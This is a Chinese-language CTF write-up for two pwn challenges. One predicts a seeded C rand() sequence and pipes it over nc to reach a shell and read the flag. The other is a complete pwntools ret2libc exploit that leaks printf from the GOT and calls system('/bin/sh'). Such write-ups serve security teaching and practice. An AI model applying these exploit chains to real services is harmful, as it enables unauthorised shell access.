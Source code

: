 ### ez_game

在c语言中，rand函数如果种子一定，rand（）的值被调用时就有规律，所以我们完全可以复刻一个c语言脚本，然后用gcc来给它编译，最后以    脚本 | nc      的形式在终端里运行，最后getshell

```c
#include <stdio.h>
#include <stdlib.h>
int main(){
    puts("Shone");
    srand(1);
    for(int i = 0; i <= 20000; ++i){
    int a=rand()%7+1;
    printf("%d\n",a);
    }
    puts("ls");
    puts("cat flag");
return 0;
}
```

### ezstack

ret2libc秒了

```c
from pwn import *
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h', '-p', '90']
p=remote('',)
elf=ELF('./ezstack')
libc=ELF('./libc-2.31.so')
pop_rdi=0x0000000000401293
payload=b'aaaa'.ljust(0x28, b'\x00')
payload+=p64(pop_rdi+1)+p64(pop_rdi)+p64(elf.got['printf'])+p64(elf.plt['printf'])+p64(pop_rdi+1)+p64(elf.sym['main'])
p.send(payload)
p.recvuntil('aaaa')
libc.address=u64(p.recv(6).ljust(8, b'\x00'))-libc.sym['printf']
print(hex(libc.address))
system=libc.sym['system']
binsh=next(libc.search(b'/bin/sh'))
payload=b'a'*0x28
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system)
p.sendline(payload)
p.interactive()
```

这道题给我们两个启示

第一，printf、main以及system这一些函数在调用的时候都需要对其，所以我们都要在构造脚本时于pop_rdi的前面加上一个八字节的ret指令，因为ret指令并不会给脚本带来什么问题还真好能用于填充字节

